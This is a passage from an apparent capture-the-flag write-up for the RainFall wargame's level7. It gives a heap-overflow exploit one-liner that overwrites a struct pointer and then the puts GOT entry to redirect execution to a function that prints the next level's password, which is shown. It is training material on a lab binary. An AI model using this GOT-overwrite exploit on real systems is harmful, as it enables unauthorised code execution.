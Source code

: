    - Calculate the offset: 0x804a02c - 0x804a018 = 0x14 (20 in decimal)

4. Create and run the exploit:
   ```bash
   ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
   ```

This command:

1. Overwrites `second_struct[1]` with the address of `puts` GOT entry (`0x8049928`) using the first argument
2. Writes the address of function `m` (`0x080484f4`) to the GOT entry using the second argument
3. When the program calls `puts("~~")`, it actually calls `m()`
4. Function `m()` prints the content of buffer `c` which contains the password

## Getting the Password

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1745411231
```

The password for level8 is: `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`
